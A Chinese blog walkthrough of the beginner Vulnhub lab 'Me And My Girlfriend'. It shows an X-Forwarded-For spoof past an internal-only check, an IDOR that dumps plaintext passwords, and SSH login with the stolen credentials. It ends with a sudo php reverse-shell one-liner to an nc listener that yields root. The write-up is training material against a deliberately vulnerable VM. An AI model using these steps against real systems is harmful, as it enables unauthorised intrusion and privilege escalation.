                         <ul class="unstyled" id="tree">  <li class="file active"><a href="/wiki/%E9%9D%B6%E6%9C%BA%E7%AC%94%E8%AE%B0/vulnhub/5-MeAndMyGirlfriend/">【Vulnhub】Me And My Girlfriend--Workthourgh</a></li>  </ul> 
                    </li> 
                     </ul> 
                    </li> 
                     <li class="file"><a href="/wiki/test/">test</a></li>  </ul> 
    </div>
    <script>
        $(document).ready(function() {
            var iconFolderOpenClass  = 'fa-folder-open';
            var iconFolderCloseClass = 'fa-folder';
            var iconAllExpandClass = 'fa-angle-double-down';
            var iconAllPackClass = 'fa-angle-double-up';
            // Handle directory-tree expansion:
            // 左键单独展开目录
            $(document).on('click', '#categories a[data-role="directory"]', function (event) {
                event.preventDefault();

                var icon = $(this).children('.fa');
                var expanded = icon.hasClass(iconFolderOpenClass);
                var subtree = $(this).siblings('ul');
                icon.removeClass(iconFolderOpenClass).removeClass(iconFolderCloseClass);
                if (expanded) {
                    if (typeof subtree != 'undefined') {
                        subtree.slideUp({ duration: 100 });
                    }
                    icon.addClass(iconFolderCloseClass);
                } else {
                    if (typeof subtree != 'undefined') {
                        subtree.slideDown({ duration: 100 });
                    }
                    icon.addClass(iconFolderOpenClass);
                }
            });
            // 右键展开下属所有目录
            $('#categories a[data-role="directory"]').bind("contextmenu", function(event){
                event.preventDefault();
                
                var icon = $(this).children('.fa');
                var expanded = icon.hasClass(iconFolderOpenClass);
                var listNode = $(this).siblings('ul');
                var subtrees = $.merge(listNode.find('li ul'), listNode);
                var icons = $.merge(listNode.find('.fa'), icon);
                icons.removeClass(iconFolderOpenClass).removeClass(iconFolderCloseClass);
                if(expanded) {
                    subtrees.slideUp({ duration: 100 });
                    icons.addClass(iconFolderCloseClass);
                } else {
                    subtrees.slideDown({ duration: 100 });
                    icons.addClass(iconFolderOpenClass);
                }
            })
            // 展开关闭所有目录按钮
            $(document).on('click', '#allExpand', function (event) {
                event.preventDefault();
                
                var icon = $(this).children('.fa');
                var expanded = icon.hasClass(iconAllExpandClass);
                icon.removeClass(iconAllExpandClass).removeClass(iconAllPackClass);
                if(expanded) {
                    $('#sidebar .fa.fa-folder').removeClass('fa-folder').addClass('fa-folder-open')
                    $('#categories li ul').slideDown({ duration: 100 });
                    icon.addClass(iconAllPackClass);
                } else {
                    $('#sidebar .fa.fa-folder-open').removeClass('fa-folder-open').addClass('fa-folder')
                    $('#categories li ul').slideUp({ duration: 100 });
                    icon.addClass(iconAllExpandClass);
                }
            });  
        });
    </script>

    
    <div id="toTop" class="fa fa-angle-up"></div>
</aside>
            
            <section id="main"><article id="post-靶机笔记/vulnhub/5-MeAndMyGirlfriend" class="article article-type-post" itemscope itemprop="blogPost">
    <div class="article-inner">
        
        
            <header class="article-header">
                
                    <div class="article-meta">
                        
    <div class="article-category">
    	<i class="fa fa-folder"></i>
        <a class="article-category-link" href="/categories/%E9%9D%B6%E6%9C%BA%E7%AC%94%E8%AE%B0/">靶机笔记</a><i class="fa fa-angle-right"></i><a class="article-category-link" href="/categories/%E9%9D%B6%E6%9C%BA%E7%AC%94%E8%AE%B0/vulnhub/">vulnhub</a>
    </div>

                        
                        
    <div class="article-date">
        <i class="fa fa-calendar"></i>
        <a href="/wiki/%E9%9D%B6%E6%9C%BA%E7%AC%94%E8%AE%B0/vulnhub/5-MeAndMyGirlfriend/">
            <time datetime="2020-05-20T08:06:19.000Z" itemprop="datePublished">2020-05-20</time>
        </a>
    </div>


                        
                            <i class="fa fa-bar-chart"></i>
                            <span id="busuanzi_container_site_pv"><span id="busuanzi_value_page_pv"></span></span>    
                        
                        
                    </div>
                
                
    
        <h1 class="article-title" itemprop="name">
            【Vulnhub】Me And My Girlfriend--Workthourgh
        </h1>
    

            </header>
        
        
        <div class="article-entry" itemprop="articleBody">
        
        
            
                <div id="toc" class="toc-article">
                <strong class="toc-title">Catalogue</strong>
                    <ol class="toc"><li class="toc-item toc-level-2"><a class="toc-link" href="#【Vulnhub】Me-And-My-Girlfriend-1–Workthourgh"><span class="toc-number">1.</span> <span class="toc-text">【Vulnhub】Me And My Girlfriend:1–Workthourgh</span></a><ol class="toc-child"><li class="toc-item toc-level-3"><a class="toc-link" href="#靶机信息"><span class="toc-number">1.1.</span> <span class="toc-text">靶机信息</span></a></li><li class="toc-item toc-level-3"><a class="toc-link" href="#用到的知识-amp-工具"><span class="toc-number">1.2.</span> <span class="toc-text">用到的知识&amp;工具</span></a></li><li class="toc-item toc-level-3"><a class="toc-link" href="#渗透过程"><span class="toc-number">1.3.</span> <span class="toc-text">渗透过程</span></a></li></ol></li></ol>
                </div>
            
        
        
            <h2 id="【Vulnhub】Me-And-My-Girlfriend-1–Workthourgh"><a href="#【Vulnhub】Me-And-My-Girlfriend-1–Workthourgh" class="headerlink" title="【Vulnhub】Me And My Girlfriend:1–Workthourgh"></a>【Vulnhub】Me And My Girlfriend:1–Workthourgh</h2><blockquote>
<p>文章作者：kn0sky</p>
<p>作者博客：kn0sky.com</p>
</blockquote>
<p>本来想下载新的靶机去玩的，无奈下载速度太慢，无意间发现去年下载的没打过的靶机，是个简单难度的，刚好挺久没练习了，有点生疏了拿来练练手，耗时：2小时</p>
<h3 id="靶机信息"><a href="#靶机信息" class="headerlink" title="靶机信息"></a>靶机信息</h3><figure class="highlight plain"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br></pre></td><td class="code"><pre><span class="line">Date release: 13 Dec 2019</span><br><span class="line">Author: TW1C3</span><br><span class="line">Series: Me and My Girlfriend</span><br><span class="line"></span><br><span class="line">Description: This VM tells us that there are a couple of lovers namely Alice and Bob, where the couple was originally very romantic, but since Alice worked at a private company, &quot;Ceban Corp&quot;, something has changed from Alice&#39;s attitude towards Bob like something is &quot;hidden&quot;, And Bob asks for your help to get what Alice is hiding and get full access to the company!</span><br><span class="line"></span><br><span class="line">Difficulty Level: Beginner</span><br><span class="line"></span><br><span class="line">Notes: there are 2 flag files</span><br><span class="line"></span><br><span class="line">Learning: Web Application | Simple Privilege Escalation</span><br></pre></td></tr></table></figure>

<p>靶机下载地址：<a href="https://www.vulnhub.com/entry/me-and-my-girlfriend-1,409/" target="_blank" rel="external nofollow noopener noreferrer">https://www.vulnhub.com/entry/me-and-my-girlfriend-1,409/</a></p>
<h3 id="用到的知识-amp-工具"><a href="#用到的知识-amp-工具" class="headerlink" title="用到的知识&amp;工具"></a>用到的知识&amp;工具</h3><ul>
<li>nmap&amp;主机发现、端口扫描</li>
<li>burp&amp;修改请求包信息</li>
<li>sudo -l查看权限</li>
<li>php反弹shell</li>
</ul>
<h3 id="渗透过程"><a href="#渗透过程" class="headerlink" title="渗透过程"></a>渗透过程</h3><p>攻击机的IP地址为192.168.101.5</p>
<p>靶机的IP地址为192.168.101.4</p>
<p>先端口扫描</p>
<p></p>
<p>目标开放了22端口和80端口</p>
<p>查看80端口</p>
<p></p>
<p>看起来像个提示，等会再说，先进行目录爆破看看，得到几个可以访问的地址</p>
<p></p>
<p>在robots.txt文件里找到如下内容：</p>
<figure class="highlight plain"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line">User-Agent: *</span><br><span class="line">Allow: &#x2F;heyhoo.txt</span><br></pre></td></tr></table></figure>

<p>访问这个地址：</p>
<p></p>
<p>看起来又是个提示</p>
<p>这个网站主页上说，网站只能从内部访问，这里猜测服务器通过IP地址来判断访问者来源，那么我们在访问请求中添加XFF头来试一试：<code>X-Forwarded-For:127.0.0.1</code></p>
<p></p>
<p>网站成功跳转了（这里注意，每次发送请求都需要把XFF头加上）,成功进入网站主页：</p>
<p></p>
<p>浏览一番发现，网站存在用户名密码泄露的问题，这里我们通过注册功能注册一个账号，然后登录进入，进入profile页面如下：</p>
<p></p>
<p>在这个页面刷新，用Burp抓包，把抓到的包放到repeater模块中</p>
<p></p>
<p>可以轻易发现，我们的账号密码在网页中是以明文保存的，这个时候我们修改请求中的user_id参数，可以发现，不同的user_id的值代表不同的用户信息（账号&amp;密码）</p>
<p>通过不断修改user_id的值我们可以得到如下用户名和密码：</p>
<figure class="highlight plain"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br></pre></td><td class="code"><pre><span class="line">eweuhtandingan:skuyatuh</span><br><span class="line">aingmaung:qwerty!!!</span><br><span class="line">sundatea:indONEsia</span><br><span class="line">sedihaingmah:cedihhihihi</span><br><span class="line">alice:4lic3</span><br></pre></td></tr></table></figure>

<p>拿到了目标Alice的账号密码，ssh登录服务器看看：</p>
<p></p>
<p>登陆成功，且在<code>alice</code>的主目录下找到了<code>flag1</code></p>
<p>以及emmmm，alice不喜欢bob了？？？算了，管他呢</p>
<figure class="highlight shell"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line">alice@gfriEND:~/.my_secret$ cat my_notes.txt </span><br><span class="line">Woahhh! I like this company, I hope that here i get a better partner than bob ^_^, hopefully Bob doesn't know my notes</span><br></pre></td></tr></table></figure>


<p>下一步是拿到root权限，先查看一下Alice账号的权限吧：</p>
<figure class="highlight sh"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br></pre></td><td class="code"><pre><span class="line">alice@gfriEND:~/.my_secret$ sudo -l</span><br><span class="line">Matching Defaults entries <span class="keyword">for</span> alice on gfriEND:</span><br><span class="line">    env_reset, mail_badpass, secure_path=/usr/<span class="built_in">local</span>/sbin\:/usr/<span class="built_in">local</span>/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin</span><br><span class="line"></span><br><span class="line">User alice may run the following commands on gfriEND:</span><br><span class="line">    (root) NOPASSWD: /usr/bin/php</span><br></pre></td></tr></table></figure>

<p>alice可以免密码使用root权限执行php命令，这就好办了，思路是通过root权限执行php反弹shell到攻击机上</p>
<p>先在攻击机上运行nc来监听</p>
<figure class="highlight sh"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line">root@windows7:~<span class="comment"># nc -nvlp 7788</span></span><br><span class="line">listening on [any] 7788 ...</span><br></pre></td></tr></table></figure>

<p>然后使用alice 的账号运行php反弹shell</p>
<figure class="highlight sh"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">alice@gfriEND:~/.my_secret$ sudo php -r <span class="string">'$sock=fsockopen("192.168.101.5",7788);exec("/bin/sh -i &lt;&amp;3 &gt;&amp;3 2&gt;&amp;3");'</span></span><br></pre></td></tr></table></figure>

<p>这个时候我们拿到了反弹的shell:</p>
<figure class="highlight sh"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br></pre></td><td class="code"><pre><span class="line">root@windows7:~<span class="comment"># nc -nvlp 7788</span></span><br><span class="line">listening on [any] 7788 ...</span><br><span class="line">connect to [192.168.101.5] from (UNKNOWN) [192.168.101.4] 43264</span><br><span class="line"><span class="comment"># whoami</span></span><br><span class="line">root</span><br></pre></td></tr></table></figure>

<p>既然已经提权到root了，直接去root目录找flag</p>
<p></p>
<p>到此正式结束</p>

            </div>
        
        <footer class="article-footer">
        </footer>
    </div>
</article>


    
<nav id="article-nav">
    
        <a href="/wiki/%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/51%E5%8D%95%E7%89%87%E6%9C%BA%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/51%E5%8D%95%E7%89%87%E6%9C%BA%E5%85%A5%E9%97%A804--%E5%AE%9A%E6%97%B6&%E8%AE%A1%E6%95%B0%E5%99%A8/" id="article-nav-newer" class="article-nav-link-wrap">
            <strong class="article-nav-caption">Newer</strong>
            <div class="article-nav-title">
                
                    51单片机入门04--定时&amp;计数器
                
            </div>
        </a>
    
    
        <a href="/wiki/%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/%E9%80%86%E5%90%91%E5%85%A5%E9%97%A8%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/%E9%80%86%E5%90%91%E5%9F%BA%E7%A1%8002--%E5%88%9D%E8%AF%95%E7%A0%B4%E8%A7%A3/" id="article-nav-older" class="article-nav-link-wrap">
            <strong class="article-nav-caption">Older</strong>
            <div class="article-nav-title">逆向基础02--初试破解</div>
        </a>
    
</nav>


    
    


<!-- baidu url auto push script -->
<script type="text/javascript">
    !function(){var e=/([http|https]:\/\/[a-zA-Z0-9\_\.]+\.baidu\.com)/gi,r=window.location.href,o=document.referrer;if(!e.test(r)){var n="//api.share.baidu.com/s.gif";o?(n+="?r="+encodeURIComponent(document.referrer),r&&(n+="&l="+r)):r&&(n+="?l="+r);var t=new Image;t.src=n}}(window);
</script>     
</section>
        </div>
        <footer id="footer">
    <div class="outer">
        <div id="footer-info" class="inner">
            kn0sky &copy; 2020 
            <a rel="external nofollow noopener noreferrer" href="http://creativecommons.org/licenses/by-nc-nd/4.0/" target="_blank"></a>
            <br> Powered by <a href="http://hexo.io/" target="_blank" rel="external nofollow noopener noreferrer">Hexo</a>. Theme - <a href="https://github.com/zthxxx/hexo-theme-Wikitten" target="_blank" rel="external nofollow noopener noreferrer">wikitten</a>
            
                <br>
                <span id="busuanzi_container_site_pv"><i class="fa fa-eye"></i> <span id="busuanzi_value_site_pv"></span></span>
                &nbsp;|&nbsp;
                <span id="busuanzi_container_site_pv"><i class="fa fa-user"></i> <span id="busuanzi_value_site_uv"></span></span>
            
        </div>
    </div>
</footer>

        

    
        
<script src="/libs/lightgallery/js/lightgallery.min.js"></script>

        
<script src="/libs/lightgallery/js/lg-thumbnail.min.js"></script>

        
<script src="/libs/lightgallery/js/lg-pager.min.js"></script>

        
<script src="/libs/lightgallery/js/lg-autoplay.min.js"></script>

        
<script src="/libs/lightgallery/js/lg-fullscreen.min.js"></script>

        
<script src="/libs/lightgallery/js/lg-zoom.min.js"></script>

        
<script src="/libs/lightgallery/js/lg-hash.min.js"></script>

        
<script src="/libs/lightgallery/js/lg-share.min.js"></script>

        
<script src="/libs/lightgallery/js/lg-video.min.js"></script>

    
    
        
<script src="/libs/justified-gallery/jquery.justifiedGallery.min.js"></script>

    
    
        <script type="text/x-mathjax-config">
    MathJax.Hub.Config({
        tex2jax: {
            inlineMath: [ ["$","$"], ["\\(","\\)"] ],
            skipTags: ['script', 'noscript', 'style', 'textarea', 'pre', 'code'],
            processEscapes: true,
            TeX: {
                equationNumbers: {
                  autoNumber: 'AMS'
                }
            }
        }
    });
    MathJax.Hub.Queue(function() {
        var all = MathJax.Hub.getAllJax();
        for (var i = 0; i < all.length; ++i)
            all[i].SourceElement().parentNode.className += ' has-jax';
    });
</script>
<script async src="//cdnjs.cloudflare.com/ajax/libs/mathjax/2.7.1/MathJax.js?config=TeX-AMS-MML_HTMLorMML"></script>
    


<!-- Custom Scripts -->

<script src="/js/main.js"></script>


    </div>
</body>
